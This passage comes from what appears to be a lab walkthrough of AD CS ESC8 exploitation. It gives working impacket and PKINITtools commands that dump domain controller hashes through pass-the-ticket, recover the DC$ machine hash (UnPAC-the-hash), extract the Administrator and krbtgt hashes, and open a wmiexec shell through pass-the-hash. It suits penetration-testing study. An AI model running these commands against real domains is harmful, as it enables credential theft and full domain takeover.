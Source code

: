![ptt-secrets-dump-krbtgt](/images/ad/adcs-esc8/ptt-secrets-dump-krbtgt.png)

```bash
KRB5CCNAME=Administrator.ccache python3 impacket/examples/secretsdump.py -just-dc-ntlm -user-status -debug -k lab.local/Administrator@dc.lab.local -no-pass -outputfile dc-lab-secretsdump
```

![ptt-secrets-dump-all](/images/ad/adcs-esc8/ptt-secrets-dump-all.png)

### Alternatively: UnPAC and Pass-the-Hash

Instead of passing the ticket, we could extract the NT hash of the DC machine account (`DC$`). This is done using [DirkJam’s getnthash](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) script and the previously obtained TGT. A service ticket request (TGS-REQ) is sent to the KDC for user-to-user (U2U) authentication. The service ticket response (TGS-REP) contains the `PAC_CREDENTIAL_INFO`, which was encrypted with the session key (`AS-REP`) from the original TGT and can be used to extract the NT hash of the DC machine account.

```bash
KRB5CCNAME=dc.ccache sudo python3 PKINITtools/getnthash.py 'lab.local/dc$' -key db89b471b9aae3e77255158503d64badc6354c325b7937074924bfd0b0b09dfd
```

![recover-nt-hash](/images/ad/adcs-esc8/recover-nt-hash.png)

Note: Machine accounts (in this case `DC$`) don't have enough privileges to execute commands with wmiexec. However, we can use the NT hash of the DC machine account to retrieve the DC local Administrator NTLM hash.

```bash
sudo python3 impacket/examples/secretsdump.py -hashes :fbe7ae23ece0b7fe4a3f2d1dfde5682a 'lab.local/dc$@dc.lab.local' -just-dc-user Administrator
```

![recover-dc-localadmin-hash](/images/ad/adcs-esc8/recover-dc-localadmin-hash.png)

Once we have obtained the NTLM hash of the local Administrator account for the DC, we can perform a pass-the-hash attack and gain shell access using [impacket's wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) script.

```bash
sudo python3 impacket/examples/wmiexec.py -hashes :4ea013e3dcbd5ee3bb088615b7589b19 lab.local/Administrator@dc.lab.local
```

![wmiexec-dc-shell.png](/images/ad/adcs-esc8/wmiexec-dc-shell.png)

We could also have used the NT hash of the DC machine account to retrieve the NTLM hash of the `krbtgt` account - allowing us to generate golden tickets.

```bash
sudo python3 impacket/examples/secretsdump.py -hashes :fbe7ae23ece0b7fe4a3f2d1dfde5682a 'lab.local/dc$@dc.lab.local' -just-dc-user krbtgt
```

![recover-krbtgt-hash](/images/ad/adcs-esc8/recover-krbtgt-hash.png)
